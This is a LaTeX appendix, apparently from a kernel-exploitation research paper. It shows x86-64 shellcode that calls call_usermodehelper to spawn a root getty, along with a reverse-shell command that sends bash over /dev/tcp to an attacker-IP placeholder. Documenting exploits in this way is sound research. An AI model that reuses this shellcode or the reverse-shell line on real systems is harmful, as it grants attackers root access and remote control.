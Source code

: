 \clearpage

\section{Shell Code}\label{apx:shellcode}

To open the new shell, we use a Linux kernel functionality allowing the spawning of user processes with root privileges. It is possible to both lunch a local shell with root access using,
 $$\textbf{\nobreak ``/sbin/getty -aroot tty9''},$$
and open a remote shell, providing root access to a remote user with,
$$\textbf{\nobreak ``/bin/bash -c /bin/bash$>$\&/dev/tcp/{\normalfont \emph{attacker's IP}}/{\normalfont \emph{port}}$<$\&1''}.$$

\begin{figure}[h]
        \begin{verbatim}
;push ``/sbin/getty -aroot tty9''
mov  rax, 0x003979747420746f
push rax
mov  rax, 0x6f72612d20797474
push rax
mov  rax, 0x65672f6e6962732f
push rax

xor  rdi, rdi
mov  rsi, rsp
xor  rdx, rdx
mov  rax, <argv_split>
call rax

mov  rdi, qword [rax]
mov  rsi, rax
xor  rcx, rcx
mov  rax, <call_usermodehelper>
call rax

pop  rax
pop  rax
pop  rax
ret
        \end{verbatim}
        \caption{Shell code for spawning a new local root shell.}
        \label{fig:shellcode_1}
\end{figure}




